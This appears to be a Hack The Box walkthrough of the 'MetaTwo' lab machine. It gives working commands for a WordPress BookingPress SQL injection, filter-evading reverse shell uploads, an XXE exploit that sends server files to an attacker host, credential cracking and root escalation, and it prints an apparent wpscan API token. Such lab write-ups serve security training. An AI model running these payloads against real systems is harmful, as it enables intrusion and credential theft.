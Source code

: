 **Target: 10.129.67.137  MetaTwo**

**Initial Access:**\
nmap -Pn 10.129.67.137 --min-rate=5000 -p- |grep open |awk -F '/' '{print $1}'|tr '\n' ',' \
Output shows open ports:  21,22,80

Enumerating these open ports further with nmap:\
nmap -Pn 10.129.67.137 --min-rate=5000 -p 21,22,80 -sC -sV -oN nmap.metatwo

![image](https://user-images.githubusercontent.com/93153300/199615632-674041d2-1937-4db2-8eb1-a973554c8546.png)

Going to port 80 doesn’t work, it shows the page redirected to http://metapress.htb.  Add this to /etc/hosts: 10.129.67.137  metapress.htb.   Now we can navigate to port 80.   It looks like a wordpress site: 

![image](https://user-images.githubusercontent.com/93153300/199615660-f8db94f0-c89c-4ffd-84f2-c86eca87531d.png)

Checking the wappalyzer browser extension confirms it is using wordpress.  Enumerate the page with command: wpscan --url http://metapress.htb/ -e ap --api-token vBj9MmyA7T9PZpfraoqfja1DFuqMewNolDsdwzZvSAc --plugins-detection mixed \
Output shows:

![image](https://user-images.githubusercontent.com/93153300/199615684-b8bb4887-76d6-4392-ac43-b4ebba1f37c9.png)
  
Found a sql injection.  Go to the link wpscan gave us → https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357.  The site shows a proof of concept for the sql injection we found:

![image](https://user-images.githubusercontent.com/93153300/199615752-d8a2f002-8e05-43c4-b846-174a62296223.png)
 
Running the command in the proof of concept doesn’t work, it says: {"variant":"error","title":"Error","msg":"Sorry, Your request can not process due to security reason."} 

This is because we need to change the _wpnonce value to the value for our specific instance.  To get the _wpnonce value, let’s look back at http://metapress.htb:

![image](https://user-images.githubusercontent.com/93153300/199615765-32a69f6d-d70a-4cef-95ec-8bba6e9afc70.png)


It shows we can click on http://metapress.htb/events, click on that and it takes us to the /events directory: 

![image](https://user-images.githubusercontent.com/93153300/199615799-225f8a1b-d633-434a-935b-976cf1d73cc3.png)
 
The page shows we can click on ‘Startup Meeting’.  In order to see what is going on behind the scenes when we click on ‘Startup Meeting’, capture the request in burp suite.  Open burp suite , turn  intercept on, and configure the browser to send requests through burp suite.  Can do this in the browser proxy settings or use something like foxy proxy.  Click on ‘Startup Meeting’, burp suite captured the request:

![image](https://user-images.githubusercontent.com/93153300/199615840-3198d2d6-283f-4e28-9f47-049f3c824920.png)

In our capture on burp suite it said _wpnonce=bf38a32c79.  Update the _wpnonce in the proof of concept for the sql injection.  \
Running the proof of concept works this time, it outputs the version 10.5.15-MariaDB-0+deb11u1.   Use the sql injection to find usernames and passwords with command:\
curl 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=bf38a32c79&category_id=33&total_service=-7502) UNION ALL SELECT group_concat(user_login),group_concat(user_pass),@@version_compile_os,1,2,3,4,5,6 from wp_users-- -'

![image](https://user-images.githubusercontent.com/93153300/199615871-5e1a2cf1-5c9e-44ec-9ff1-97493ef69478.png)

Found 2 users and 2 hashed passwords.  \
Can also do this with sqlmap:\
Step 1:  Take the burp suite request we captured above and save it as a file, we will call it burp. \
Step 2: sqlmap -r burp --batch -p total_service -dbs -D blog --tables -T wp_users --columns -C user_login,user_pass --dump

![image](https://user-images.githubusercontent.com/93153300/199615901-ec250991-54fe-437b-9ec5-14d08631bd21.png)

Copy the hashed passwords and paste them into a file (we will call the file hash). Place each hash on a seperate line within that file.  If you got the hashes using the curl way we showed, then make sure to remove the backslash in the manager hash.  Manager’s hash should look like this: $P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70
 
We will use hashcat to crack these hashes.  In order to crack these we need to tell hashcat the type of hashes we have.  Use command nth:   nth -f hash.  The command returns an output of:

![image](https://user-images.githubusercontent.com/93153300/199615945-a0e3728c-cebb-4c0c-a40b-76a0cf1ac3d4.png)
Crack the hashes with command: hashcat -m 400 hash /usr/share/wordlists/rockyou.txt\
User manager hash cracked, the password is: partylikearockstar

Wordpress has a standard directory /wp-login.php that is used for logging in (If we didn’t know this we can easily find it by running a quick directory brute force on http://metapress.htb).   Use the found credentials to log in.  The site shows that it has an upload page:

![image](https://user-images.githubusercontent.com/93153300/199615966-eb275c19-09a9-41cf-91e9-471666af1a88.png)
 
After some trial and error, seems that there are 2 security filters in place.  It checks the file extension, so you cannot upload a .php file.  Second, it checks the beginning magic numbers of the file.  To bypass these filters do the following:\
Change the file extension from .php to .php.jpg.  \
Change the beginning magic numbers to jpg magic numbers (FF D8 FF E0) with command: hexeditor -n <filename> → change first 4 columns to FF D8 FF E0

Now it allows the upload. Upload a php pentest monkey reverse shell and apply the two changes mentioned to bypass the security filters (I gave it a filename of friends.php.jpg).  After the upload finishes, it shows the file we uploaded.  Clicking on the uploaded file gives the url where the file is stored (bottom right where it says File URL): 

![image](https://user-images.githubusercontent.com/93153300/199616010-a9ab15f7-eba2-421c-b56d-32d6355c8ae0.png)

Open nc listener: nc -lvnp 443.  However, visiting the location of the file, won’t run the upload.  Seems like a rabbit hole. \
Going back to the wpscan we ran earlier, there’s an authenticated xxe exploit it found:

![image](https://user-images.githubusercontent.com/93153300/199616028-f47bbf8e-3c08-45f1-8654-697ec8a26a39.png)

Search for the exploit with command: searchsploit wordpress|grep -i xxe   → found exploit: \
WordPress 5.7 - 'Media Library' XML External Entity Injection (XXE)  | php/webapps/50304.sh

Download the exploit with command: searchsploit -m 50304.sh.\
Reading through 50304.sh exploit, we see that the exploit is doing the following actions:\
Step 1:  log in to wordpress with credentials \
Step 2: create a malicious .wav and .dtd files.   \
Step 3: get the _wpnonce.\
Step 4: using the wordpress upload functions, it uploads the malicious .wav file. \
Step 5: create files to receive the information from the target (50304.sh calls it serversniffer) \
Step 6: Take the encoded files received and decode them.

To run the exploit: bash 50304.sh metapress.htb manager partylikearockstar /etc/passwd  ```<LHOST>``` \
It worked, we got back the target /etc/passwd file information: 

![image](https://user-images.githubusercontent.com/93153300/199616039-aaecc84a-1f98-4efd-a255-c7b761e8e542.png)
 
The output from /etc/passwd shows a user jnelson.\
Change the /etc/passwd to  ../wp-config.php to get credentials: \
bash 50304.sh metapress.htb manager partylikearockstar /etc/passwd  ```<LHOST>```:

![image](https://user-images.githubusercontent.com/93153300/199616065-58e555d6-3f96-4112-9292-4a8480112c15.png)
 
Found 2 sets of credentials.  The MySQL credentials are user blog, password 635Aq@TdqrCwXFUZ.  The ftp credentials are user metapress.htb, password 9NYS_ii@FyL_p5M2NvJ.  

Log into ftp with command: ftp metapress.htb@metapress.htb → when prompted enter the password  9NYS_ii@FyL_p5M2NvJ.  Go into directory mailer:

![image](https://user-images.githubusercontent.com/93153300/199616079-82fa080a-3da1-4ba5-8222-8557e77a8342.png)
 
Read contents of send_email.php with command: get send_email.php -

![image](https://user-images.githubusercontent.com/93153300/199616104-49b4042b-6dd9-44da-ae32-97adc89ef45d.png)

Found credentials for user jnelson.\
ssh jnelson@metapress.htb → when prompted enter the password \
We have shell as jnelson, can read the flag at /home/jnelson/user.txt
_______________________________________________________________
**Privilege Escalation:**\
Go to directory /home/jnelson/.passpie.  Download the .keys file (it’s a private pgp key). \
Next go to /home/jnelson/.passpie/ssh.  Download the root.pass file.\
Opening the root.pass file shows:

![image](https://user-images.githubusercontent.com/93153300/199616129-9f305e90-a0c1-476e-801f-f6d8f4f47723.png)


The root.pass file contains root’s password, but it’s in the form of an encrypted pgp message. We will use the private pgp key file (.keys file) together with a command called gpg to decrypt it.\
To decrypt it use command: gpg –import .keys.   It asks us for a passphrase.  So before we go to decrypting the files, we will need to find a passphrase. 

Use john to get the passphrase. \
Step 1: John needs to convert the key to a hash he can use.  To do this conversion we need to do two things.  

*	Step A: John can only do this conversion with one key in the file, if the file contains more than one key it will not work.  Open ‘.keys’ file and check if it  is one key or more. The ‘.keys’ file shows 2 keys.  Copy one key and create a new file with it, we will call the file ‘privatekey’.
*	Step B:  Run command: gpg2john privatekey > hash 

Step 2: Run command: john hash –wordlist=/usr/share/wordlists/rockyou.txt.  Found passphrase:  blink182. \
Step 3: Run command: gpg –import .keys  → when prompted enter the passphrase blink182. 
*	It might not ask for a passphrase again, and cause this to not work.  This is due to gpg caching the first passphrase you entered and reusing it.  If this is the case for you, then a quick and easy solution is to just switch to a different user for this part (can switch to user root or any other user on your pc, as gpg only cached it for the user you used). 

Step 4: Root.pass has a pgp message, but it also has other information.  To decrypt the message, we need a file that only contains the message.  Copy the message and create a file with that message and call it rootpgpmessage.  \
Step 5: Run command: gpg -d rootpgpmessage

The message decrypted is p7qfAZt4_A1xo_0x \
This is root’s password.  Back to the jnelson shell we have, run command: su → when prompted enter the password p7qfAZt4_A1xo_0x. \
We have shell as root, can get the flag at /root/root.txt

